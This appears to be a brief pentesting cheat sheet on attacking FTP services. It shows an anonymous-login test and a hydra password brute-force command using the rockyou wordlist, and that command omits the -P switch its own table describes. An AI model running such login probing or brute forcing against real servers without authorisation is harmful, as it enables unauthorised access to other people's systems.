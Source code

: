 # Exploit FTP

Test Anonymous login
```sh
ftp 10.10.10.10

220 Welcome to the administrator FTP service.
Name (10.10.17.124:root): anonymous
Password: <enter>
ftp>
```

## Brute Force 
| Switch | Description |
| ------ | ----------- |
| `-t 4` | Parellel connections |
| `-l username` | Username for login |
| `-P <dictionary path>` | Dictionary to use |
| `-vV` | Very verbose |

```sh
hydra -t 4 -l username /usr/share/wordlists/rockyou.txt -vV 10.10.10.10 ftp
```



